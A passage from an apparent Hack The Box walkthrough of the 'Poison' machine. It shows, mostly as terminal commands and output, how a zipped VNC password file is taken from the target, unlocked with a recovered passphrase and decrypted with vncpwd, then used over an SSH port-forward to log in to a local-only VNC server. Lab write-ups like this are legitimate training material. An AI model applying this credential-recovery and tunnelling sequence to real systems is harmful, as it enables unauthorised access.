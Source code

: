 After searching for a while for the location of the VNC password file, it became clear the intended path is to find the VNC password in the secret.zip file.
Downloading the secret.zip file, and unzipped it using the 'Charix!2#4%6&8(0' passphrase to unlock it.
Using the vncpwd tool to unencrypt the vnc password that is hidden inside this file.

Location vncpwd tool: https://github.com/jeroennijhof/vncpwd

```
user@kali:~/hackthebox/hackthebox/poison$ scp charix@10.10.10.84:/home/charix/secret.zip .
Password for charix@Poison:
secret.zip                                                         100%  166     6.3KB/s   00:00    
user@kali:~/hackthebox/hackthebox/poison$ unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
user@kali:~/hackthebox/hackthebox/poison$ ls
exploit  gobuster  linpeas.out  nmap  poison.md  pwdbackup-decoded.txt
pwdbackup.txt  screenshots  secret  secret.zip  ssh  vnc
user@kali:~/hackthebox/hackthebox/poison$ cat secret
[|Ֆz!user@kali:~/hackthebox/hackthebox/poison$ ls vnc/
vncpwd
user@kali:~/hackthebox/hackthebox/poison$ ls vnc/vncpwd/
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd  vncpwd.c
user@kali:~/hackthebox/hackthebox/poison$ cd vnc/
user@kali:~/hackthebox/hackthebox/poison/vnc$ cd vncpwd/
user@kali:~/hackthebox/hackthebox/poison/vnc/vncpwd$ ls
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd  vncpwd.c
user@kali:~/hackthebox/hackthebox/poison/vnc/vncpwd$ make
gcc -Wall -g -o vncpwd vncpwd.c d3des.c
user@kali:~/hackthebox/hackthebox/poison/vnc/vncpwd$ ./vncpwd 
Usage: vncpwd <password file>
user@kali:~/hackthebox/hackthebox/poison/vnc/vncpwd$ ./vncpwd ../../secret
Password: VNCP@$$!
```

We found the password of the VNC server: VNCP@$$!
Opening a local port forwarding ssh session forwarding 5801+5901:

```
$ ssh -L 5801:127.0.0.1:5801 -L 5901:127.0.0.1:5901 charix@10.10.10.84
Password for charix@Poison:
```

Then open a connection to the vnc server locally on 127.0.0.1:1
(1 points to ports 5801,5901)

```
$ vncviewer 127.0.0.1:1
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
```
